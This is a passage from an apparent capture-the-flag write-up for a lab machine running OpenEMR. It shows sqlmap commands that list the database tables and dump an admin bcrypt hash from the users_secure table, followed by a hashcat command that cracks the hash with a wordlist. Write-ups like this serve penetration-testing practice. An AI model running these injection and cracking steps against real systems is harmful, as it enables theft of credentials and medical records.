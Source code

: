```
[11:26:59] [INFO] fetched data logged to text files under '/home/skirmish/.sqlmap/output/hms.htb'                                                                                                                                            
[11:26:59] [WARNING] you haven't updated sqlmap for more than 100 days!!! 
```

This injection point works! We can now see what tables exist:

```
sqlmap -r request.txt -D openemr --tables

...
[11:27:19] [INFO] retrieved: 'user_settings'                                                                         
[11:27:19] [INFO] retrieved: 'users'                                                                                                                                                                                                       
[11:27:19] [INFO] retrieved: 'users_facility'                                                                        
[11:27:19] [INFO] retrieved: 'users_secure'
...
```

Looking at the users tables gives us plaintext passwords, but they're invalid. However, dumping users_secure gives us a hash:

```
sqlmap -r request.txt -D openemr -T users-secure --dump

+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+                       
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |                       
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+                       
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |                       
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
```

This is a blowfish hash, that we can crack with Hashcat:

```
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt

...
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
...
```
